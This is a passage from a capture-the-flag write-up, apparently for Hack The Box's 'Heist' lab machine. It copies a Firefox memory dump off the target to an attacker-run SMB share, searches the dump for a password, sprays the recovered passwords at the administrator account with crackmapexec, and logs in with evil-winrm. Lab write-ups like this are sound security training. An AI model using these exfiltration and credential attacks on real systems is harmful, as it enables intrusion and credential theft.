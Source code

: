 Transfer the file. Start an SMB server on the attacker machine:

```
$ impacket-smbserver -smb2support -username guest -password guest share /home/shelldrake/smbshare
```

connect to the share and transfer the file:

```
*Evil-WinRM* PS C:\Users\Chase\Desktop> net use m: \\10.10.14.25\share /user:guest guest
The command completed successfully.

*Evil-WinRM* PS C:\Users\Chase\Desktop> cmd /c "copy firefox.dmp m:\"
        1 file(s) copied.
```

Once we get the memory dump we can use strings to look for anythign interesting like a password:

```
$ strings firefox.dmp | grep password
...
http://localhost/login.php?login_username=admin@support.htb&login_password=4dD!5}x/re8]FBuZ&login=
...

```

We get an other password(4dD!5}x/re8]FBuZ) we can add to our [password file](./files/passwords.txt) and we can try it on our known users:

```
rackmapexec smb 10.129.96.157 -u administrator -p ~/ctf/htb/machines/heist/files/passwords.txt
SMB         10.129.96.157   445    SUPPORTDESK      [*] Windows 10.0 Build 17763 x64 (name:SUPPORTDESK) (domain:SupportDesk) (signing:False) (SMBv1:False)
SMB         10.129.96.157   445    SUPPORTDESK      [-] SupportDesk\administrator:$uperP@ssword STATUS_LOGON_FAILURE 
SMB         10.129.96.157   445    SUPPORTDESK      [-] SupportDesk\administrator:Q4)sJu\Y8qz*A3?d STATUS_LOGON_FAILURE 
SMB         10.129.96.157   445    SUPPORTDESK      [-] SupportDesk\administrator:stealth1agent STATUS_LOGON_FAILURE 
SMB         10.129.96.157   445    SUPPORTDESK      [+] SupportDesk\administrator:4dD!5}x/re8]FBuZ (Pwn3d!)
```

Looks like we have an administrator password. Let log in and get the flag:

```
$ evil-winrm -i 10.129.96.157 -u administrator -p '4dD!5}x/re8]FBuZ'

Evil-WinRM shell v3.4

Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine

Data: For more information, check Evil-WinRM Github: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\Administrator\Documents> cd ../Desktop
*Evil-WinRM* PS C:\Users\Administrator\Desktop> dir


    Directory: C:\Users\Administrator\Desktop


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-ar---        8/20/2022   7:15 AM             34 root.txt
```

We have the root flag!